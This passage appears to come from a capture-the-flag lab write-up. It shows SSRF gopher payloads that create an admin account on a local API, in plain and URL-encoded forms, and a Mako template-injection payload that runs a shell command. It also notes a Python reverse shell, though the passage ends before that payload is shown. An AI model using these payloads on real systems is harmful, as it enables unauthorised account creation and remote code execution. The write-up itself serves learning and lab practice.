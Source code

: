 ```bash
[!] Plain text payload:


gopher://127.0.0.1:80/_POST /api/admin/create HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 37

username=admintest&password=admintest

[!] URL encoded payload:
gopher://127.0.0.1:80/_POST%20/api/admin/create%20HTTP/1.1%0aHost:%20127.0.0.1%0aContent-Type:%20application/x-www-form-urlencoded%0aContent-Length:%2037%0a%0ausername%3dadmintest%26password%3dadmintest

[!] Double URL encoded payload:
gopher%3a//127.0.0.1%3a80/_POST%2520/api/admin/create%2520HTTP/1.1%250aHost%3a%2520127.0.0.1%250aContent-Type%3a%2520application/x-www-form-urlencoded%250aContent-Length%3a%252037%250a%250ausername%3dadmintest%26password%3dadmintest

[!] Another option that might work via something like BURP:
gopher%3a%2F%2F127.0.0.1%3a80%2F_POST%2520%2Fapi%2Fadmin%2Fcreate%2520HTTP%2F1.1%250aHost%3a%2520127.0.0.1%250aContent-Type%3a%2520application%2Fx-www-form-urlencoded%250aContent-Length%3a%252037%250a%250ausername%3dadmintest%26password%3dadmintest

```
we can see that the account was created
![[Pasted image 20241208022227.png]]now at the `http://glaucidium/public/admin/login` endpoint try to login with `admintest:admintest`
![[Pasted image 20241208022400.png]]
and `local.txt`
![[Pasted image 20241208022417.png]]

##### Server Side Template Injection (SSTI)

###### Glaucidium 
Upon clicking `Admin Dashboard` this leads us to `Create a  New Article`
![[Pasted image 20241208022740.png]]
this brings us to this field - where `mako` is being utilized for `templating`
![[Pasted image 20241208022820.png]]
a simple google search shows us that `mako` utilizes python
![[Pasted image 20241208022911.png]]
utilizing `hacktricks mako` gives us a payload to test for `SSTI`
![[Pasted image 20241208023108.png]]
```python
<%
import os
x=os.popen('id').read()
%>
${x}
```
this is what it looks like utilizing the `payload` - and hitting update
![[Pasted image 20241208023145.png]]
after hitting update lets navigate to the view of a generic `user` viewing the news page
![[Pasted image 20241208023246.png]]
this proves that it is utilizing `python` and we can try to utilize `revshells` to generate a simple `python shell` utilizing the `mako` formatting 
![[Pasted image 20241208025132.png]]
the payload used that gives a semi stable reverse shell